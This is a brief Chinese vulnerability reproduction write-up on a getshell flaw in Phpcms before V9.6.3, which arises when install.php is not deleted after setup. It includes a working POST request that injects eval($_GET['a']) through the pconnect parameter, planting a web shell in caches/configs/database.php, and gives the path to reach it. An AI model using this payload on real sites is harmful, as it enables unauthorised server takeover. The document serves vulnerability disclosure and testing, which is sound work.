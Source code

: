 Phpcms V9.6.3 install.php 没有即使删除导致的getshell
====================================================

一、漏洞简介
------------

比较鸡肋，需要在环境安装好了之后，install.php也没有被删除，才可以利用

二、漏洞影响
------------

Phpcms \< V9.6.3

三、复现过程
------------

    POST /install/install.php?step=installmodule
    module=admin&dbport=3306&pconnect=eval($_GET["a"])

> 这里控制的是
> pconnect参数，因为默认它没有单引号比较好调试。注意这里如果不传dbport参数的话database.php里的port参数会置空，将会报错。就无法执行到后面的
> eval了

![1.png](resource/PhpcmsV9.6.3install.php没有即使删除导致的getshell/media/rId24.png)

被修改后的database.php：

![2.png](resource/PhpcmsV9.6.3install.php没有即使删除导致的getshell/media/rId25.png)

url：`/caches/configs/database.php`

![3.png](resource/PhpcmsV9.6.3install.php没有即使删除导致的getshell/media/rId26.png)

